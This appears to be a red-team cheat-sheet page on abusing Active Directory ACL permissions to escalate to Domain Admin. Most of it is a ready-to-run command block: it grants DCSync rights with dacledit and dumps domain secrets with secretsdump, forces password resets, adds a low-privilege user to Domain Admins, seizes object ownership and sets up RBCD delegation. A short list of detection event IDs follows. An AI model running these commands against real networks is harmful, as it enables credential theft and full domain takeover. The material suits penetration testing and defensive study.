

# ACL abuse (GenericAll / WriteDACL / ForceChangePassword)

### Affected object / attribute
**`nTSecurityDescriptor`** on any AD object: domain root, users, computers, groups, OUs, GPOs, AdminSDHolder.

### Concept (deep)
AD ACLs are the **permissions layer** of AD. BloodHound visualises dangerous ACEs as edges. Abuse of `GenericAll`, `GenericWrite`, `WriteDacl`, `WriteOwner`, `AddMember`, `AddKeyCredentialLink`, `ReadLAPSPassword`, `ReadGMSAPassword` turns a low-priv principal into a privileged one **without exploitation**. The most impactful edge is **`WriteDacl` on the domain object**, which allows granting yourself **DCSync rights**.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Enumerate ACLs with PowerView ────────────────────────────────────
Get-DomainObjectAcl -Identity "DC=corp,DC=local" -ResolveGUIDs |
  ? {$_.ObjectAceType -eq "DS-Replication-Get-Changes-All"}

# ── WriteDacl → DCSync ────────────────────────────────────────────────
python3 dacledit.py -action write -rights DCSync \
  -principal lowpriv -target-dn 'DC=corp,DC=local' \
  corp.local/admin:'Password123!' -dc-ip 10.10.10.5
impacket-secretsdump -just-dc corp.local/lowpriv:'Password123!'@10.10.10.5

# ── GenericAll on user → ForceChangePassword ─────────────────────────
bloodyAD -d corp.local -u lowpriv -p 'Password123!' \
  set password victim 'NewP@ss1'

# ── AddMember on group ────────────────────────────────────────────────
bloodyAD -d corp.local -u lowpriv -p 'Password123!' \
  add groupMember 'Domain Admins' lowpriv

# ── WriteOwner → GenericAll ───────────────────────────────────────────
bloodyAD -d corp.local -u lowpriv -p 'Password123!' \
  set owner target lowpriv
# Then grant yourself GenericAll via the new ownership.

# ── GenericWrite on computer → RBCD ──────────────────────────────────
python3 rbcd.py -delegate-from 'PWN$' -delegate-to 'TARGET$' \
  -action write -dc-ip 10.10.10.5 corp.local/lowpriv:'Password123!'
```

### Impact
- **Ranked escalation to Domain Admin** via the shortest ACL path.
- **Persistence** via AdminSDHolder or SID History.

### Detection and defensive measures
- **5136** (`nTSecurityDescriptor` modified) on domain root, AdminSDHolder, and sensitive OUs.
- **4728/4732** group membership changes.
- **Baseline ACLs**; remove unnecessary `WriteDacl`/`GenericAll` from non-tier-0 principals.
- **Alert** on AdminSDHolder/domain-root ACL edits (Event 4662 with `WriteDacl`).

---
